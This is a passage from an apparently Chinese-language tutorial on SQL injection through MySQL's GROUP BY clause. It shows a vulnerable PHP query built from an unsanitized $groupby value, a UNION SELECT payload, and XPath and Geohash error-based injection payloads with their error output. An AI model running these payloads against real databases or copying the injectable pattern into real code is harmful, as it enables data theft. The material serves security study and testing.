 ```php
$sql=&#34;select * from users where username like &#39;admin%&#39; group by $groupby limit 3&#34;;
$result=mysql_query($sql);
```

试着在group by后面拼接union select成功：

Payload:`groupby=id union select 1,user(),version()`

![图片](/resource/SQL注入之GroupBy位置点注入.assets/640-20230814161740153.png)

### 报错注入

报错注入也简单，直接在group by后续位置插入报错语句即可：

#### XPath报错

```sql
mysql&gt; select * from users group by 1,(extractvalue(1,concat(&#39;~&#39;,(select version()))));
ERROR 1105 (HY000): XPATH syntax error: &#39;~8.0.31&#39;
mysql&gt; 
mysql&gt; select * from users group by 1, (updatexml(1,concat(0x7e,(select version()),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: &#39;~8.0.31~&#39;
mysql&gt; 
```



#### Geohash报错

Geohash报错在5.7.26上成功了，但是在8.0.31上失败了

```sql
# mysql 5.7.26
mysql&gt; select * from users where username like &#39;admin%&#39; group by users.id,1,(ST_LongFromGeoHash((select version())));
ERROR 1411 (HY000): Incorrect geohash value: &#39;5.7.26&#39; for function ST_LONGFROMGEOHASH
mysql&gt; select * from users where username like &#39;admin%&#39; group by users.id,1,(ST_PointFromGeoHash((select version()),1));
ERROR 1411 (HY000): Incorrect geohash value: &#39;5.7.26&#39; for function st_pointfromgeohash
mysql&gt; select * from users where username like &#39;admin%&#39; group by users.id,1,(ST_LatFromGeoHash((select version())));
ERROR 1411 (HY000): Incorrect geohash value: &#39;5.7.26&#39; for function ST_LATFROMGEOHASH
mysql&gt;
```
